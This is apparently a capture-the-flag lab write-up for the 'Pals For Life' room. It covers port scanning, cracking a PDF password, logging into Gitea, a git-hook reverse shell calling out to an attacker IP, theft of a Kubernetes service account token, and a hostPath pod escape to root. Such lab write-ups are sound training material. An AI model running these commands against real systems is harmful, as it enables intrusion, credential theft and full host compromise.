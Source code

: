 # Pals For Life

![image](https://user-images.githubusercontent.com/86648102/135341140-8a711e05-557d-44c8-a326-d243c4a6c260.png)

---

## Task 1 Deploy the VM


Please allow 5 minutes for the machine to fully boot up.

> Answer: No answer needed


## Task 2 Compromise the machine



**Answer the questions below**

### Flag 1

`export ip=10.10.219.14`

`ping $ip`

- Get machine IP and check the connectivity:

![image](https://user-images.githubusercontent.com/86648102/134903424-aebdd489-9e4f-4471-b155-6eeade692bc6.png)
- Scanning and Enumeration:
`sudo nmap -sC -sV -v -oN PalsForLifenmapscan.txt $ip -p- -Pn`

Open ports:
- 22 ssh
- 6443 ssl/sun-sr-https? Kubernetes
- 10250 Golang net/http server
- 30180 nginx
- 31111 Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go
- 31112 OpenSSH

---
- For now, we leave the SSH ports alone. The most interesting, in my oppinion is the Gitea 31111 port.

![image](https://user-images.githubusercontent.com/86648102/134904400-5e3ce142-048b-43c0-a60f-170e9f45d32a.png)

- Let's explore the website. Under **Explore** > **Users** we manage to find the following:
![image](https://user-images.githubusercontent.com/86648102/134904776-cd8e3428-448e-430e-8c58-e69f489facbb.png)

We have a user: leeroy.

---

- I tried scanning the other ports with Gobuster, to see if other pages are around there. The 30180 returned something interesting!

`sudo gobuster dir -u http://$ip:30180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee palsforlifegobuster.txt`

![image](https://user-images.githubusercontent.com/86648102/134906394-ffd3def6-6fee-48b8-a87f-9e332c3d506a.png)

http://machineip:30180/team 

![image](https://user-images.githubusercontent.com/86648102/134906568-0b0dbb54-8df7-4aaf-8e81-770fda5571bf.png)

Someone seems to like World Of Warcraft a lot :)

Nothing special on the page, except the video. However, when inspecting the page:

![image](https://user-images.githubusercontent.com/86648102/134906809-ee1d0239-2d66-439e-bae9-10185e572e1c.png)


Someone forgot an "uninteresting" file around. Let's put the code in a text file and see what we can do.

![image](https://user-images.githubusercontent.com/86648102/134907151-805d81e9-74a1-4bde-98b0-c2631dfeaf8e.png)

What if we decode it with base64?

`cat contentfromsite | base64 --decode > uninteresting_file.pdf`

![image](https://user-images.githubusercontent.com/86648102/134907464-9d8b6ac1-0d8f-45ea-8f61-563b952a27c1.png)


Apparently it's password protected. We will use **John The Ripper** for this one.

`/usr/share/john/pdf2john.pl uninteresting_file.pdf > pdfhash.txt`

The format to be used will be shown with this command:

`john --list=formats | grep -i pdf`

And to crack the password of the file:

`john --format=PDF --wordlist=/usr/share/wordlists/rockyou.txt pdfhash.txt`

`john --show pdfhash.txt`

**It worked!**

![image](https://user-images.githubusercontent.com/86648102/134908157-99295585-44ac-477e-9df5-f645867be2bb.png)

Apply the password to the PDF file. Apparently, within there's a text that might look like a password...back to the Gitea, maybe **leeroy** with this password will work.

![image](https://user-images.githubusercontent.com/86648102/134908865-171c7bc2-5dc8-4f62-adb3-2076da70b2e0.png)

We are in!

- Found a "secret" field under the Webhooks ( Repository > Settings > Webhooks )
Right click to inspect the field and..you get the first flag.

![image](https://user-images.githubusercontent.com/86648102/134909821-2a88084b-8fac-45a5-a87b-e0c457dbe74c.png)

---
### Flag 2
---

Githooks abuse.

![image](https://user-images.githubusercontent.com/86648102/134910069-93f8b126-1a15-4f17-9a03-aaf134cb341f.png)

Edit the "post-receive" hook and add the following content:

`#!/bin/bash
bash -i >& /dev/tcp/10.8.174.98/4444 0>&1`

![image](https://user-images.githubusercontent.com/86648102/134910323-c2859f53-3897-449b-ab14-f31e75317abb.png)


Also, open a netcat listener on port 4567.

`sudo nc -nvlp 4567`

![image](https://user-images.githubusercontent.com/86648102/134913265-87d883c4-11b5-4db8-acfe-f309bba16147.png)

We need to do some sort of action, for the hook to activate the reverse shell. Creating a new file, will do just fine:

![image](https://user-images.githubusercontent.com/86648102/134913438-3e4cd6b8-a7ac-4ae8-a3de-1f2ddd0b46c2.png)

We got the shell.

![image](https://user-images.githubusercontent.com/86648102/134913596-3b2ebc47-d1c3-44c8-8b37-f0395568bc6a.png)

By searching for flag files, we get the 2nd flag:

`find / -type f -iname flag2* 2>/dev/null`

![image](https://user-images.githubusercontent.com/86648102/134913989-f240b007-1c98-419f-823e-e2ecfca0c505.png)


---
### Flag 3
---

As the hint says "kubectl", this one is about Kubernetes (Port 6443)

- Service Account Token

> By default, the containers in the Kubernetes cluster will hold service account token within their file system. If an attacker could find that token, he/she can use it to move laterally or depending the privilege of the service account, one can escalate its privilege to further compromise the cluster environment

`cat /var/run/secrets/kubernetes.io/serviceaccount/token`

> Output the token to a text file for later usage.

- Usage of it:

`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 auth can-i --list`

Apparently, we can do anything with it.

![image](https://user-images.githubusercontent.com/86648102/134915608-1fc9f376-8b15-4615-a423-4d2c2007f73c.png)

As, we have the permissions, let's check the secret resources:

`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n kube-system get secret flag3 -o json | jq -r '.data | map_values(@base64d)'`


![image](https://user-images.githubusercontent.com/86648102/134916020-e9f9230e-c70d-4c47-8fa8-65013b5d6ec0.png)


---
### Flag 4
---


We will create a new pod and abuse this.
Create a **host.yaml**

```
apiVersion: v1
kind: Pod
metadata:
  name: host
spec:
  containers:
  - image: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    name: host
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - mountPath: /host
      name: host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

And then run the following command:
  
`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n default apply -f host.yaml`
  
`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n default exec -it host bash`

And with this, we are in as root:

`find / -type f -iname *root.txt* 2>/dev/null`

![image](https://user-images.githubusercontent.com/86648102/134922788-74a8e64e-266a-469a-9054-0f22f2dc7b03.png)

Last flag is here.

Congrats for making it so far. Contact me in case of further explanations are needed!

